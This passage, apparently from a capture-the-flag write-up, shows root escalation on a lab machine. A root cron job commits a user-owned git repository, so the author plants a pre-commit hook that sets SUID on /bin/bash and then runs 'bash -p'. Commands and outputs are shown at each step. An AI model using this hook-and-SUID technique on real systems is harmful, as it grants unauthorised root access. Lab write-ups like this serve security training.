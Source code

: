 ```shell
  Usage of /:   75.9% of 3.48GB   Users logged in:        0
  Memory usage: 31%               IP address for eth0:    10.10.11.164
  Swap usage:   0%                IP address for docker0: 172.17.0.1


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

16 updates can be applied immediately.
9 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Mon May 16 13:13:33 2022 from 10.10.14.23
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
dev01@opensource:~$ 
```

## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice that there are some cronjobs installed. Apart from this we cannot see anything else.  
Now since there are some cronjobs, let's run `pspy64` and see if we can snoop some interesting process.  
```shell
2022/08/01 13:31:01 CMD: UID=0    PID=17758  | /bin/bash /usr/local/bin/git-sync 
2022/08/01 13:31:01 CMD: UID=0    PID=17757  | /bin/sh -c /usr/local/bin/git-sync 
2022/08/01 13:31:01 CMD: UID=0    PID=17756  | /usr/sbin/CRON -f 
2022/08/01 13:31:01 CMD: UID=0    PID=17762  | git commit -m Backup for 2022-08-01 
2022/08/01 13:31:01 CMD: UID=0    PID=17763  | /bin/bash /usr/local/bin/git-sync 
```
As we can see, every minute, this machin is doing a `git commit -m Backup for 2022-08-01` .  
Now, as we can see from [this source](https://githooks.com/)git can be configured to run some commands before or after events such as: commit, push, and receive.  
Every Git repository has a `.git/hooks` folder with a script for each hook you can bind to. And since the repo (home directory) is owned by us, we are free to change or update these scripts as necessary, and Git will execute them when those events occur.
now, we can create a `pre-commit` script containing the following:  
```shell
dev01@opensource:~/.git/hooks$ cat pre-commit
#!/bin/bash
chmod 4755 /bin/bash
```
And wait for the cron to run.  
After a minute we can check bash permissions:  
```shell
dev01@opensource:~/.git/hooks$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1113504 Apr 18 15:08 /bin/bash
```
And as we can see, now bash has the SUID set.  
Now we can escalate to root by running:  
```shell
dev01@opensource:~/.git/hooks$ bash -p
bash-4.4# id
uid=1000(dev01) gid=1000(dev01) euid=0(root) groups=1000(dev01)
```
